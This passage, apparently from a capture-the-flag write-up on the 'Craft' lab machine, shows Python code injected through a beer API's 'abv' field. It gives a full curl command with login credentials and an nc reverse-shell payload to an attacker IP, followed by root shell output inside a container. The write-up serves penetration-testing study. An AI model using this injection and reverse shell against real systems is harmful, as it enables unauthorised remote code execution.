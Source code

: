 
### Shell

Now I’ll just replace the `abv` value from the successful beer POST with the
`python` injection code and get a shell as root:

    
    
    root@kali# TOKEN=$(curl -s -k -X GET "https://dinesh:4aUh0A8PbVJxgd@api.craft.htb/api/auth/login" -H  "accept: application/json" | jq -r '.token'); \
    curl -X POST "https://api.craft.htb/api/brew/" -H  "accept: application/json" -H  "Content-Type: application/json" -d "{
    \"id\": 0,
    \"brewer\": \"0xdf\",
    \"name\": \"beer\",
    \"style\": \"bad\",
    \"abv\": \"__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f')\"}" -k -H "X-CRAFT-API-TOKEN: $TOKEN"
    
    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.110.
    Ncat: Connection from 10.10.10.110:37785.
    /bin/sh: can't access tty; job control turned off
    /opt/app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    

Looks like it’s a container:

    
    
    /opt/app # hostname
    5a3d243127f5
    /opt/app # ip addr
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
    15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
        link/ether 02:42:ac:14:00:06 brd ff:ff:ff:ff:ff:ff
        inet 172.20.0.6/16 brd 172.20.255.255 scope global eth0
           valid_lft forever preferred_lft forever
    

## Shell as gilfoyle@craft

### Local Enumeration

It’s quickly obvious there’s almost nothing on this box. `/opt/app` holds the
API code from gogs:
